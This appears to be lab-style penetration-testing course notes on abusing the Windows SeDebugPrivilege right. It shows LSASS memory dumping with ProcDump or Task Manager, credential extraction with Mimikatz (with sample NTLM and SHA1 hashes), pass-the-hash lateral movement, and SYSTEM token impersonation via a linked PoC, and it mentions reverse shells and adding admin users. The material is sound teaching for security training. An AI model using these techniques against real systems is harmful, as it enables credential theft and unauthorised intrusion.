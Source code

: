 To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structure. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

During an internal penetration test, it is often helpful to use websites such as LinkedIn to gather information about potential users to target. Let's say we retrieved many NTLMv2 hashes using `Responder` or `Inveigh`. We can focus our efforts on high value targets, such as developers. There may be privileges that BloodHound can't enumerate, so it's always worth checking for them.
![[debug.webp]]

After logging on as a user assigned the `Debug programs` right and opening an elevated shell, we see `SeDebugPrivilege` is listed.
```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set         
```

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.
```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Using Mimikatz we can get the hash of the local administrator account, which can be used to perform pass-the-hash attack to move laterally if the same local administrator password is used on one or more additional systems (common in large organizations).

Note: It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.
![[WPE_taskmgr_lsass.webp]]

## Remote Code Execution as SYSTEM

We can leverage `SeDebugPrivilege` for [RCE](https://decoder.cloud/2018/02/02/getting-system/). We can elevate our privileges to SYSTEM by launching [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it.

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next we just load the script and run it with the usage which can be found [here](https://github.com/decoder-it/psgetsystem).

First, open an elevated PowerShell console. Next, type `tasklist` to get a listing of running processes and accompanying PIDs.
```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.
![[psgetsys_winlogon.webp]]

We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

![[psgetsys_lsass.webp]]

**Note:** The syntax in the images is outdated

Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`. Often we will not have RDP access to a host, so we'll have to modify our PoCs to either return a reverse shell to our attack host as SYSTEM or another command, such as adding an admin user.